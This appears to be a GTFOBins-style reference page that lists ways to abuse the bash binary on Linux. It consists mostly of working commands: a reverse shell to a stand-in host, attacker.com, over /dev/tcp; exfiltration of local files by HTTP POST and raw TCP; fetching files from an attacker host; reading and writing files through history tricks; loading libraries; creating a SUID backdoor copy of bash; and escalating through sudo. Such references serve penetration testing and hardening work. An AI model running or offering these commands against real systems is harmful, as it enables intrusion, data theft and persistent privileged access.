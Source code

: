 # bash

## **Shell**

It can be used to break out from restricted environments by spawning an interactive system shell.

- `bash`

## **Reverse shell**

It can send back a reverse shell to a listening attacker to open a remote network access.

- Run `nc -l -p 12345` on the attacker box to receive the shell.
    
    ```bash
    export RHOST=attacker.com
    export RPORT=12345
    bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
    ```
    

## **File upload**

It can exfiltrate files on the network.

- Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
    
    ```bash
    export RHOST=attacker.com
    export RPORT=12345
    export LFILE=file_to_send
    bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
    ```
    
- Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
    
    ```bash
    export RHOST=attacker.com
    export RPORT=12345
    export LFILE=file_to_send
    bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
    ```
    

## **File download**

It can download remote files.

- Fetch a remote file via HTTP GET request.
    
    ```bash
    export RHOST=attacker.com
    export RPORT=12345
    export LFILE=file_to_get
    bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
        3<>/dev/tcp/$RHOST/$RPORT \
        | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    ```
    
- Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
    
    ```bash
    export RHOST=attacker.com
    export RPORT=12345
    export LFILE=file_to_get
    bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
    ```
    

## **File write**

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```bash
export LFILE=file_to_write
bash -c 'echo DATA > $LFILE'
```

- This adds timestamps to the output file.
    
    ```bash
    LFILE=file_to_write
    HISTIGNORE='history *'
    history -c
    DATA
    history -w $LFILE
    ```
    

## **File read**

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

- It trims trailing newlines and it’s not binary-safe.
    
    ```bash
    export LFILE=file_to_read
    bash -c 'echo "$(<$LFILE)"'
    ```
    
- The read file content is surrounded by the current history content.
    
    ```bash
    LFILE=file_to_read
    HISTTIMEFORMAT=$'\r\e[K'
    history -r $LFILE
    history
    ```
    

## **Library load**

It loads shared libraries that may be used to run code in the binary execution context.

```bash
bash -c 'enable -f ./lib.so x'
```

## **SUID**

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which bash) .
./bash -p
```

## **Sudo**

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo bash
```